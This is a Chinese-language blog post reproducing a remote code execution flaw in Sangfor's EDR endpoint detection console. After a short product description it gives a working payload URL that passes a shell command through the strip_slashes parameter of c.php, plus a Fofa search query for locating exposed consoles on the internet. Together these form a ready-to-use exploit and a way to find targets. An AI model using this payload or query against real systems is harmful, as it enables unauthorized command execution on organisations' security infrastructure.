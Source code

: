 ```yaml
---
title: 深X服 EDR终端检测系统RCE漏洞复现
top: false
categories:
- 渗透测试
tags:
- RCE
- 深信服
abbrlink: 37031
date: 2020-08-17 22:11:48
keywords:
summary:
cover: https://image.geoer.cn/rce11.jpg
password:
---
```




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="https://image.geoer.cn/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="https://image.geoer.cn/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```

